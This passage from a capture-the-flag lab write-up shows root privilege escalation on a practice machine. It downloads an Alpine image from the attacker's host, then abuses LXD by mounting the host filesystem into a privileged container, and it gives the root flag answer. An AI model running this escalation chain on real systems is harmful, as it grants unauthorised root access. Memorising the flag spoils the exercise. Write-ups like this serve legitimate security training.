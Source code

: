  - In the victim machine:
    ```bash
    flynn@light-cycle:/$ cd tmp/
    flynn@light-cycle:/tmp$ wget <YOUR_IP>:8000/alpine-3-7-apache-php5-6.tar.bz2.000
    --2020-12-25 12:59:22--  http://<YOUR_IP>:8000/alpine-3-7-apache-php5-6.tar.bz2.000
    Connecting to <YOUR_IP>:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 13019149 (12M) [application/octet-stream]
    Saving to: ‘alpine-3-7-apache-php5-6.tar.bz2.000’

    alpine-3-7-apache-p 100%[===================>]  12.42M  3.28MB/s    in 7.3s    

    2020-12-25 12:59:30 (1.69 MB/s) - ‘alpine-3-7-apache-php5-6.tar.bz2.000’ saved [13019149/13019149]
    flynn@light-cycle:/tmp$ lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias dsimage
    flynn@light-cycle:/tmp$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+---------+------------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE   |         UPLOAD DATE          |
    +---------+--------------+--------+-------------------------------+--------+---------+------------------------------+
    | Alpine  | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB  | Dec 20, 2020 at 3:51am (UTC) |
    +---------+--------------+--------+-------------------------------+--------+---------+------------------------------+
    | dsimage | 4d565cdcbaad | no     | Alpine-LAMP                   | x86_64 | 12.42MB | Dec 25, 2020 at 1:01pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+---------+------------------------------+

    flynn@light-cycle:/tmp$ lxc init dsimage dscontainer -c security.privileged=true
    Creating dscontainer
    flynn@light-cycle:/tmp$ lxc config device add dscontainer dsdevice disk source=/ path=/mnt/root recursive=true
    Device dsdevice added to dscontainer
    flynn@light-cycle:/tmp$ lxc start dscontainer
    flynn@light-cycle:/tmp$ lxc exec dscontainer /bin/sh
    ~ # whoami
    root
    ~ # id
    uid=0(root) gid=0(root)
    ```

---

### What is the value of the root.txt flag?
- **Answer:** THM{FLYNN_LIVES}
- **Steps to Reproduce:**

```bash
~ # cd /mnt/root/root/
/mnt/root/root # cat root.txt
THM{FLYNN_LIVES}



"As Elf McEager claimed the root flag a click could be heard as a small chamber on the anterior of the NUC popped open. Inside, McEager saw a small object, roughly the size of an SD card. As a moment, he realized that was exactly what it was. Perplexed, McEager shuffled around his desk to pick up the card and slot it into his computer. Immediately this prompted a window to open with the word 'HOLO' embossed in the center of what appeared to be a network of computers. Beneath this McEager read the following: Thank you for playing! Merry Christmas and happy holidays to all!"
```
---